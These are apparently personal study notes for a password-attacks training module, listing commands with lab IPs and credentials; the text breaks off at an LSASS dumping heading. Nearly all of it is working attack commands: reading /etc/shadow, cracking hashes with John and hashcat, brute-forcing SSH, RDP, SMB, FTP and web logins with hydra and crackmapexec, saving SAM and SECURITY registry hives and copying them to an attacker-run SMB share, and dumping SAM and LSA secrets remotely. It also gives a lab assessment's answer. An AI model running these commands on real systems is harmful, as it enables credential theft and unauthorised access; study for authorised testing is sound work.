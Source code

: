 ## Password attacks

- cat /etc/shadow
- john --format=<hash_type> <hash or hash_file>
- john --format=sha256 hashes_to_crack.txt
- pdf2john server_doc.pdf > server_doc.hash
- crackmapexec smb -h
- crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
- crackmapexec winrm 10.129.42.197 -u user.list -p password.list
- evil-winrm -i <target-IP> -u <username> -p <password>
- hydra -L user.list -P password.list ssh://10.129.42.197
- hydra -L user.list -P password.list rdp://10.129.42.197
- crowbar -b rdp -s xx.xxx.xxx.xxx/32 -u johanna -C <full-mutated-password-list
- hydra -L user.list -P password.list smb://10.129.42.197
- msfconsole -q
- scanner/smb/smb_login
- crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
- smbclient -U user \\\\10.129.42.197\\SHARENAME
- mutations
    - cat custom.rule
    - hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
    - hashcat.exe -a 0 password.txt -r custom.rule --stdout -D 2 -d 1
    - ls /usr/share/hashcat/rules/
    - cewl [https://www.inlanefreight.com](https://www.inlanefreight.com/) -d 4 -m 6 --lowercase -w inlane.wordlist
    - wc -l inlane.wordlist
    - Assessment
        - hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
        - Remove all passwords shorter than 10 with `sed -ri '/^.{,9}$/d' mut_password.list`
        - Take the first 7000 `head -7000 mut_password.list`
        - hydra -l sam -P ./7000mut_password.list [ftp://10.129.202.64](ftp://10.129.202.64/) -t 64
        - grep '^[A-Z]' mut_password3.list > mut_password4.list
        - B@tm@n2022!
- Password Reuse
    - hydra -C <user_pass.list> <protocol>://<IP>
    - hydra -C userpass.txt streamio.htb https-post-form “/login.php:username=^USER^&password=^PASS^:F=Login failed”
    - [https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv](https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv)
- SAM
    - Using reg.exe save to Copy Registry Hives
        - `reg.exe save hklm\\sam C:\\sam.save`
        - `reg.exe save hklm\\system C:\\system.save`
        - `reg.exe save hklm\\security C:\\security.save`
    - Creating a Share with [smbserver.py](http://smbserver.py/)
        - sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
        - move sam.save \\10.10.15.16\CompData
    - Dumping Hashes with Impacket's [secretsdump.py](http://secretsdump.py/)
        - python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    - Crack hash with hashcat
        - txt file sudo vim hashestocrack.txt
        - crack nt hashes
        - sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
    - Remote Dumping & LSA Secrets Considerations
        - Dumping LSA Secrets Remotely
            - crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
        - Dumping SAM Remotely
            - crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
- LSASS
    - Dumping LSASS Process Memory
